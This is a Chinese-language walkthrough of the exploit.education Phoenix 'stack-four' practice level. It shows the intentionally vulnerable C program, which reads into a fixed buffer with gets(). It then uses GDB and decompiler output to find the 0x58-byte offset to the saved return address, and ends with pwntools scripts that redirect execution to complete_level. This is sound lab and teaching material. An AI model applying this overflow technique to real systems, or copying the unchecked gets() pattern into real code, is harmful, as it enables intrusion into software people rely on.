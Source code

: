 # STACK FOUR

Stack Four takes a look at what can happen when you can overwrite the saved instruction pointer (standard buffer overflow).

**Hints**

- The saved instruction pointer is not necessarily directly after the end of variable allocations – things like compiler padding can increase the size. [Did you know that some architectures may not save the return address on the stack in all cases?](https://en.wikipedia.org/wiki/Link_register)
- GDB supports “run < my_file” to direct input from my_file into the program.

```c
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

这个题目有点意思，用了 `__builtin_return_address(0); ` 这是 gcc 的内建函数，看起来就像是和返回地址相关的

查了一下 via：http://blog.chinaunix.net/uid-26817832-id-3351553.html

`__builtin_return_address(0)` 的含义是，得到当前函数返回地址

`__builtin_return_address(1)` 的含义是，得到当前函数的调用者的返回地址

gdb 调试看看

![image-20200428163146802](image-20200428163146802.png)

到调用  `start_level` 留意下，`call` 的下一条指令的地址，这就是 `start_level` 调用完之后要回到这里继续执行，这个地址就是 `start_level` 的返回地址

放在 `start_level` 的栈上 `rbp + 8` 的位置

好了，我们直接步入 `start_level` 看看  `ret = __builtin_return_address(0);`，ret 是什么东西，是不是返回地址

![image-20200428164044625](image-20200428164044625.png)

可以看到，确实是把  `rbp + 8` 上的东西赋值给了 `rbp - 8`, `rbp - 8` 就是 `ret` 变量在栈上的位置

```asm
 ► 0x400649 <start_level+20>    mov    rax, qword ptr [rbp + 8]
   0x40064d <start_level+24>    mov    qword ptr [rbp - 8], rax
   0x400651 <start_level+28>    mov    rax, qword ptr [rbp - 8]
```

![image-20200428164537486](image-20200428164537486.png)

可以看到，确实是把  `start_level` 的返回地址赋值给了 ret

好了，回到正题，实际上我们反编译出来的是这样的

`local_res0` 就是返回地址

![image-20200428164640916](image-20200428164640916.png)

我们看到的 ![image-20200428164754688](image-20200428164754688.png)

`local_10`  其实就是源码里面的 `ret` 变量，它位于：`rbp - 0x10 + 8`， :8 是加 8 的意思，其实就是 `rbp - 8`，这个地方是存的返回地址，然后用 `printf("and will be returning to %p\n", ret);` 打印出来（其实这个不用管）

我们的目的是调用 `complete_level` 所以我们只需要把 `start_level`  返回地址覆盖成 `complete_level` 的地址就可以

看一下，漏洞点就在

```c
gets(local_58);
```

![image-20200428165602947](image-20200428165602947.png)

我们可以无限（其实是有限制的，比如终端的限制什么的，但是，上限是一个很大的值，反正就是可以输入很多就是了）写入 `local_58` 

因为这一次我们要覆盖的地方是函数的返回地址，而不是栈上的变量，返回地址位于 `rbp + 8`

好了，现在看一下 local_58 的地址：

![image-20200428174107256](image-20200428174107256.png)

说实话，在这里的时候我被演了，没仔细看，以为  `local_58`  位于 `rbp - 0x58`，我直接填充了`0x58 + 0x8`，返回地址直接变成 `0x4141414141414141`，看了 gets(local_58); 的汇编才知道，其实是从 `rbp - 0x50` 开始写入的。

所以，要覆盖的地方位于  `rbp + 8` 从 `rbp - 0x50` 开始覆盖，记住还有一个 rbp 要填充（8 Bytes），所以就是 `0x50 + 0x8`，你会发现我怎么不加  `rbp + 8` 的那个 8 了，其实越过 `rbp` 以后地址就是往高的地方增长了（我懒得描述了，看图吧）

填充长度：`0x58`

via :https://bbs.pediy.com/thread-200575.htm 

![496841_xqjwzb3vp0m4ogz](496841_xqjwzb3vp0m4ogz.png)

拿到 `complete_level` 的地址 ：`0x000000000040061d`

![image-20200428170121883](image-20200428170121883.png)

写 payload：

```python
from pwn import *

complete_level = 0x000000000040061d
exp = "A" * (0x58)
exp += p64(complete_level)

print(exp)
```

我就不用 procces 了（我知道 pwntools 有这个东西），原本我还想手动来着，算了

一样的：

```python
from pwn import *

p = process("./stack-four")
complete_level = 0x000000000040061d
exp = "A" * (0x58)
exp += p64(complete_level)
p.sendline(exp)
p.interactive()
```

![image-20200428175512906](image-20200428175512906.png)

pwn ！